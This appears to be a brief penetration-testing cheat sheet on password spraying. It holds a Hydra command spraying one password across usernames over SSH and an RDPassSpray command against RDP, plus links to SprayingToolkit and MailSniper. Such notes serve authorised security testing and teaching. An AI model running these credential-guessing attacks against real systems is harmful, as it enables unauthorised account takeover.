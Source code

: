 # Password Spraying

## Hydra
```
hydra -L usernames.txt -p Sprint2022 ssh://10.10.10.10
```

## RDPassSpray for RDP
[RDPassSpray Github](https://github.com/xFreed0m/RDPassSpray)

```
python3 RDPassSpray.py -u victim -p Spring2021! -t 10.100.10.240:3026
```

## SprayingToolkit
[SprayingToolkit Github](https://github.com/byt3bl33d3r/SprayingToolkit)

## MailSniper
[MailSniper Github](https://github.com/dafthack/MailSniper)